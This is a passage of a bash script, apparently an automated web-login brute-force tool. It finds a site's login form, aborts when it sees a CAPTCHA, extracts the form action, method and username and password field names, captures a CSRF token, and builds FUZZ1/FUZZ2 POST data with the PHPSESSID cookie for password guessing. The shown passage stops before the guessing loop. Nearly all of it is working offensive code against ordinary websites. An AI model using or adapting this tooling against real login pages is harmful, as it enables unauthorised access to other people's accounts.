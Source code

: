 ```bash
sed 's:[/?]*$::' | sed 's:$:/:')

if [ -z "$LOGIN" ]; then
    color_print RED "[!] No login page found. Exiting."
    exit 1
fi

HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA check
if echo "$HTML" | grep -qiE "g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"; then
    color_print RED "[!] CAPTCHA detected. Brute-force aborted."
    exit 1
fi

# Extract Form Action & Method
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
if [[ "$ACTION" == /* ]]; then
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    FULL_ACTION=$(dirname "$LOGIN")"/$ACTION"
fi

# Extract Username & Password Fields
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF Token Extraction
CSRF_FIELD=""
CSRF_VALUE=""
HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

# Prepare POST Data
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

COOKIES=$(curl -s -I "$URL" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | cut -d';' -f1 | grep -i 'PHPSESSID')

```